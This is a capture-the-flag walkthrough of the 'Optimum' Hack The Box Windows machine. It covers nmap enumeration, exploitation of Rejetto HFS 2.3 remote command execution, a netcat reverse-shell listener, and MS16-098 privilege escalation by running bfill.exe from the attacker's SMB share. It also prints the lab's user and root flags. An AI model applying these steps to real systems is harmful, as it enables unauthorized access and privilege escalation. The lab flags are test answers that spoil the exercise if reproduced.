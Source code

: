 # Optimum
>Author : Xyan1d3
>Date : 28th June 2021
>IP : 10.10.10.8
>OS : Windows
>Difficulty : Easy
# Initial Enumeration
## Nmap
```sql
# Nmap 7.91 scan initiated Mon Jun 28 16:20:55 2021 as: nmap -sC -sV -v -oN nmap/optimum 10.10.10.8
Nmap scan report for optimum.htb (10.10.10.8)
Host is up (0.076s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-favicon: Unknown favicon MD5: 759792EDD4EF8E6BC2D1877D27153CB1
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We see that we have only port `80/tcp` open which shows the banner of `HttpFileServer httpd 2.3` which we can look for an available exploits.

## Web Enumeration
We take a look at the page running on `80/tcp` which shows that it is running `Rejetto HttpFileServer 2.3`.
![[Pasted image 20210628162535.png]]

We do a simple `searchsploit` to find out that the site is vulnerable to `Unauthenticated Remote Command Execution`.

![[Pasted image 20210628164048.png]]

We copy the exploit to our home directory using `searchsploit -m` and run the exploit.
```python
# Exploit Title: Rejetto HttpFileServer 2.3.x - Remote Command Execution (3)
# Google Dork: intext:"httpfileserver 2.3"
# Date: 28-11-2020
# Remote: Yes
# Exploit Author: Óscar Andreu
# Vendor Homepage: http://rejetto.com/
# Software Link: http://sourceforge.net/projects/hfs/
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287

*** SNIP ***
```

To run the exploit we must enter `python3 exploit.py RHOST RPORT CMD`.

To, Test this exploit we could run a `netcat` on `80/tcp` and try to curl on us using powershell `Invoke-WebRequest`.

![[Pasted image 20210628165136.png]]

# Initial FootHold as kotas
We could abuse the vulnerablility to get a shell on the box by executing a Nishang Reverse Shell on the box.

![[Pasted image 20210628170038.png]]

We could now get the `user.txt`.
```powershell
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/optimum]
└──╼ # nc -lvnp 8888
Listening on 0.0.0.0 8888
Connection received on 10.10.10.8 49226

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
PS C:\Users\kostas\Desktop> ls


    Directory: C:\Users\kostas\Desktop


Mode                LastWriteTime     Length Name                                                                      
----                -------------     ------ ----                                                                      
-a---         18/3/2017   2:11 ??     760320 hfs.exe                                                                   
-ar--         18/3/2017   2:13 ??         32 user.txt.txt                                                              


PS C:\Users\kostas\Desktop> cat user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```

# Root Escalation
For, Root Escalcation we need to check the system OS information for finding any possible exploits.
```python
PS C:\Users\kostas\Desktop> systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          4/7/2021, 10:47:11 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC           
```

There are also a bunch of hostfixes installed.
```python
Hotfix(s):                 31 Hotfix(s) Installed.                                                                                                                       
                           [01]: KB2959936 
                           [02]: KB2896496 
                           [03]: KB2919355 
                           [04]: KB2920189 
                           [05]: KB2928120 
                           [06]: KB2931358 
                           [07]: KB2931366 
                           [08]: KB2933826 
                           [09]: KB2938772 
                           [10]: KB2949621 
                           [11]: KB2954879 
                           [12]: KB2958262 
                           [13]: KB2958263 
                           [14]: KB2961072 
                           [15]: KB2965500 
                           [16]: KB2966407 
                           [17]: KB2967917 
                           [18]: KB2971203 
                           [19]: KB2971850 
                           [20]: KB2973351 
                           [21]: KB2973448 
                           [22]: KB2975061 
                           [23]: KB2976627 
                           [24]: KB2977629 
                           [25]: KB2981580 
                           [26]: KB2987107 
                           [27]: KB2989647 
                           [28]: KB2998527 
                           [29]: KB3000850 
                           [30]: KB3003057 
                           [31]: KB3014442
```

# Root Escalation
This is a `Windows Server 2012 R2` x64 Os which is has many vulnerabilities of which we will be exploiting `MS16-098`.

## Exploiting MS16-098
Exploit Link : https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-098/bfill.exe
We will also need a normal netcat shell with `cmd.exe` to pull off this exploit.
So, We Make a `www` directory and copy `nc64.exe` and `bfill.exe` there and host it with Impacket `smbserver.py`.

![[Pasted image 20210628182951.png]]

```python
┌─[Magisk@Xyan1d3]─[10.10.14.11]─[~/htb/optimum/www]
└──╼ # nc -lvnp 9999
Listening on 0.0.0.0 9999
Connection received on 10.10.10.8 49188
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
optimum\kostas

C:\Users\kostas\Desktop>\\10.10.14.11\magisk\bfill.exe
\\10.10.14.11\magisk\bfill.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system
```


We are now, `NT Authority/SYSTEM` on the box and can now get our `root.txt`
```python
C:\Users\kostas\Desktop>cd C:\Users\Administrator\Desktop
cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\Administrator\Desktop

18/03/2017  03:14     <DIR>          .
18/03/2017  03:14     <DIR>          ..
18/03/2017  03:14                 32 root.txt
               1 File(s)             32 bytes
               2 Dir(s)  31.885.611.008 bytes free

C:\Users\Administrator\Desktop>type root.txt
type root.txt
51ed1b36553c8461f4552c2e92b3eeed
```